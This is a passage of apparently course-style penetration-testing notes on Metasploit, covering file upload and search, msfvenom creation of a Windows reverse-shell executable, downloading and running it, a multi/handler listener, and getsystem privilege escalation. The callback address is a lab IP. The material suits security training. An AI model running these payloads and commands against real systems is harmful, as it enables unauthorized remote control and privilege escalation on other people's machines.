 ```
upload unix-privesc-check
```

search for file 
```
search -f filename
```

### Executable payloads


To get familiar with msfvenom, we'll first create a malicious Windows binary starting a raw TCP reverse shell. Let's begin by listing all payloads with payloads as argument for -l. In addition, we use --platform to specify the platform for the payload and --arch for the architecture.

```
msfvenom -l payloads --platform windows --arch x64 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```

then from Windows machine can run
```
iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe
.\nonstaged.exe
```

note that netcat cannot handle staged payload / meterpreter, have to use `multi/handler` to setup reverse shell
```
use multi/handler
set payload windows/x64/shell/reverse_tcp
show options
set LHOST 192.168.119.2
set LPORT 443
run
```

## Post-Exploitation
### Post-Exploit Commands

idletime shows how long a user has been away for

 Metasploit contains the command getsystem, which attempts to automatically elevate our permissions to NT AUTHORITY\SYSTEM


```
shell
whoami /priv
exit
getuid
getsystem
getuid
```

can also migrate meterpreter execution to a different process
